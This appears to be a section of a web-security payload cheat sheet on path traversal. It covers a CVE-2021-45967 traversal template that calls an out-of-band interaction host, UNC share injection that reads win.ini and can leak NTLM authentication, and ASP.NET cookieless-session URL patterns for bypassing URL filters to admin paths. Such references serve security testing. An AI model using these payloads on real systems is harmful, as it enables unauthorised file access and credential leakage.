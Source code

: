 **Example**: Pascom Cloud Phone System CVE-2021-45967

A configuration error between NGINX and a backend Tomcat server leads to a path traversal in the Tomcat server, exposing unintended endpoints.

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```

## Exploit

These exploits affect mechanism linked to specific technologies.

### UNC Share

A UNC (Universal Naming Convention) share is a standard format used to specify the location of resources, such as shared files, directories, or devices, on a network in a platform-independent manner. It is commonly used in Windows environments but is also supported by other operating systems.

An attacker can inject a **Windows** UNC share (`\\UNC\share\name`) into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

Also the machine might also authenticate on this remote share, thus sending an NTLM exchange.

### ASP NET Cookieless

When cookieless session state is enabled. Instead of relying on a cookie to identify the session, ASP.NET modifies the URL by embedding the Session ID directly into it.

For example, a typical URL might be transformed from: `http://example.com/page.aspx` to something like: `http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`. The value within `(S(...))` is the Session ID.

| .NET Version   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |

We can use this behavior to bypass filtered URLs.

* If your application is in the main folder

    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```
